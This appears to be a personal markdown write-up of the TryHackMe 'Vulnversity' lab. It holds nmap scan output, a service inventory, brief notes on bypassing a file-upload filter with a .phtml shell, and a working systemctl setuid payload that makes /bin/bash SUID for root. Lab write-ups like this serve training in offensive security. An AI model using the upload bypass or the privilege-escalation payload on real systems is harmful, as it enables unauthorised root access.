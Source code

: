 <!--
  ____   __  ____  __
 (  _ \ /. |(  _ \/  )
  )___/(_  _))___/ )(
 (__)    (_)(__)  (__)

FileName: Vulniversity.md
Link: https://tryhackme.com/room/vulnversity

-->
# Vulniversity.md
Ip: x.x.x.x

## Scans
```bash
nmap -sV x.x.x.x

Starting Nmap 7.60 ( https://nmap.org ) at 2020-04-21 02:12 CEST
Nmap scan report for 10.10.76.153
Host is up (0.022s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.18 seconds
```

```bash
nmap --script vuln x.x.x.x

Starting Nmap 7.60 ( https://nmap.org ) at 2020-04-21 02:12 CEST
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.76.153
Host is up (0.022s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
|_sslv2-drown:
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http
3333/tcp open  dec-notes

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: false
| smb-vuln-regsvc-dos:
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_

Nmap done: 1 IP address (1 host up) scanned in 45.20 seconds
```

## Services / Versions
ftp         vsftpd 3.0.3
ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
http-proxy  Squid http proxy 3.5.12
http        Apache httpd 2.4.18 ((Ubuntu))
PHP Version 7.0.33-0ubuntu0.16.04.5

## Research
/internal/

## Information
Can't upload .php files
Upload custom shell .phtml
set tty to raw echo: stty raw -echo

## Credentials

### Root:
 - user: <..>
 - pass: <..>

## Privesc

### Setuid: gtfobins
systemctl

payload:
>TF=$(mktemp).service
>echo '[Service]
>Type=oneshot
>ExecStart=/bin/sh -c "chmod +s /bin/bash"
>[Install]
>WantedBy=multi-user.target' > $TF
>/bin/systemctl link $TF
>/bin/systemctl enable --now $TF

